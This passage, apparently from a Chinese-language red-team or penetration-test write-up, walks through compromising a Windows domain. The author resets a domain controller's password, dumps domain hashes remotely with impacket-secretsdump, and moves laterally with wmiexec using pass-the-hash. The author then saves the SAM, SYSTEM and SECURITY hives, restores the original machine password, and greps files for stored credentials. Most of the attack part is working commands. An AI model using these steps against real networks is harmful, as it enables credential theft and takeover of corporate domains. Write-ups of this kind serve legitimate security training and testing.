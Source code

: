随后进行攻击重置 DC 密码：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221209101714.png)

这个时候就可以直接无密码远程 Dcsync 导出 BBB 域的 hash：

    
    
    proxychains impacket-secretsdump bbb.com/BBB\$@xxx.xxx.30.xxx    -no-pass  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221209101716.png)

然后 wmi 过去：

    
    
    proxychains python3 wmiexec.py -hashes xxxx:xxxx bbb.com/admin@xxx.xxx.30.xxx  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221209101721.png)

这个时候 BBB 域也已经拿下，最后恢复一下密码，不让这个域脱域了就 GG 了：

    
    
    C:\>reg save HKLM\SYSTEM system.save  
    The operation completed successfully.  
      
    C:\>reg save HKLM\SAM sam.save  
    The operation completed successfully.  
      
    C:\>reg save HKLM\SECURITY security.save  
    The operation completed successfully.  
    

全部下载到本地然后获取 $MACHINE.ACC 值：

    
    
    impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL  
    

最后进行恢复：

    
    
    proxychains python3 reinstall_original_pw.py BBBDC xxx.xxx.30.xxx xxxxxxxxx  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221209101722.png)

尝试控密码看看能不能导出 hash，不能导出就说明恢复成功了：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221209101724.png)

Ok, 已经把 DC 恢复成功，这个时候继续信息搜集发现当前 DC ，还是老样子继续搜集当前已控机器上的各类文件：

    
    
    findstr /c:"username=" /c:"password=" /c:"uid=" /c:"pwd=" /si *.ini *.inf *.txt *.cgi *.conf *.asp *.php *.jsp *.aspx *.cgi *.xml *.log *.new *.bak  
    

幸运的是我得到了当前域的 Vcenter 的链接账号密码信息，最后通过登录到后台：
